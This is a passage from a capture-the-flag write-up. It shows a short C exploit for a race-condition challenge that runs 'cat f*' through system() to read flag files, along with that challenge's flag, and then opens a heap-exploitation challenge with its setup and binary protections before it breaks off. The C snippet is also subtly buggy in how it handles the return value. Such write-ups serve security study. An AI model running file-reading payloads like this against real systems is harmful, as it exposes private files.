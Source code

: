 {% code title="expl.c" %}
```c
#include<stdlib.h>
#include<stdio.h>

int main(){
    char a;
    a = system("cat f*");
    printf("%s",a);
}
```
{% endcode %}

{% hint style="success" %}
Flag: _TBTL{T1m3\_0f\_chEck\_70\_tIM3\_0f\_PWN}_
{% endhint %}

## Heap Peek and Poke

### Description

> Last year's solutions were unintended, let's try it again.
>
> &#x20;`nc 0.cloud.chals.io 12348`

{% hint style="info" %}
my first CPP heap exploitation challenge
{% endhint %}

### Analysis

here's what we're given

```bash
└──╼ [★]$ tree .
.
├── chall
├── chall.cpp
├── flag.txt
├── libc-2.27.so
├── libstdc++.so.6

└──╼ [★]$ file chall
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=387e8e6d3dcde6bd62fea53786bca1072d7d3181, not stripped

└──╼ [★]$ pwn checksec chall
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
